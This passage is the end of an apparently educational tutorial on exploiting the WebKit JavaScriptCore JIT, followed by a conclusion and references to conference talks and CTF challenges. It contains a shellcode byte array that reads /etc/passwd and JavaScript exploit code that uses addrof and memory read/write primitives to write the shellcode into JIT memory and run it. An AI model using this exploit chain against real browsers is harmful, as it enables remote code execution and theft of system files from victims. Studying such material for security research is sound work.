                   0xd2, 0x66, 0xba, 0xff, 0xf, 0x48, 0x31, 0xc0, 0xf, 0x5,
                   0x48, 0x31, 0xff, 0x40, 0x80, 0xc7, 0x1, 0x48, 0x89, 0xc2,
                   0x48, 0x31, 0xc0, 0x4, 0x1, 0xf, 0x5, 0x48, 0x31, 0xc0, 0x4,
                   0x3c, 0xf, 0x5, 0xe8, 0xbc, 0xff, 0xff, 0xff, 0x2f, 0x65,
                   0x74, 0x63, 0x2f, 0x70, 0x61, 0x73, 0x73, 0x77, 0x64, 0x41]

  var s = "A".repeat(64);
  var strAddr = addrof(s);
  var strData = Add(memory.read64(Add(strAddr, 16)), 20);

  // write shellcode
  shellcode.push(...strData.bytes());
  memory.write(jitCodeAddr, shellcode);

  // trigger and get /etc/passwd
  func();
  print() 
#+end_example

--------------

* Conclusion
  :PROPERTIES:
  :CUSTOM_ID: conclusion
  :END:
We have demonstrated the exploitation of the most complicated part of
browser - JavaScript engine. However, browser is huge. There are many
other attack surface, like DOM and WASM. Some researchers also find bugs
in SQL database used by browsers that may be turned into RCE. Be patient
and be creative.

--------------

* References
  :PROPERTIES:
  :CUSTOM_ID: references
  :END:

- /Groß S/, 2018, Black Hat USA, /"Attacking Client-Side JIT Compilers"/
- /Han C/, [[https://github.com/tunz/js-vuln-db/][/"js-vuln-db"/]]
- /Gianni A/ and /Heel1an S/, /"Exploit WebKit Heap"/
- /Filip Pizlo/, http://www.filpizlo.com, Thanks for many presentations!
- /Groß S/, 2018, 35C3 CTF /WebKid Challenge/
- /dwfault/, 2018,
  [[http://dwfault-blog.imwork.net:30916/2019/01/03/WebKit%20JavaScriptCore%E7%9A%84%E7%89%B9%E6%AE%8A%E8%B0%83%E8%AF%95%E6%8A%80%E5%B7%A7/][/WebKit
  Debugging Skills/]]
